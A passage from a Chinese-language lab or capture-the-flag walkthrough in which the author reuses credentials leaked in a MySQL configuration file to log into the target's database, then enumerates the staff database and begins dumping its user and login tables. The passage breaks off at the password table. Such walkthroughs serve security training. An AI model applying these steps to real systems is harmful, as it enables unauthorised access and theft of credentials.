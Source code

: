 
文件中泄露了一个username和passwod: `qdpmadmin/UcVQCMQk2STVeS6J`。该文件是mysql数据库的配置文件，所以我们可以使用该用户登录mysql数据库。	

## 2. Login Mysql

使用上面获取的用户名和密码登录mysql数据库：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ mysql -u qdpmadmin -h 172.16.86.143 -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 58
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| qdpm               |
| staff              |
| sys                |
+--------------------+
6 rows in set (0.002 sec)

MySQL [(none)]> use staff;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [staff]> show tables;
+-----------------+
| Tables_in_staff |
+-----------------+
| department      |
| login           |
| user            |
+-----------------+
3 rows in set (0.002 sec)
```

staff数据库可能会藏有很多用户信息，并且存在logiin和user表，查看表信息；

```shell
MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
5 rows in set (0.001 sec)

MySQL [staff]> select * from login;
+------+---------+--------------------------+
| id   | user_id | password                 |
```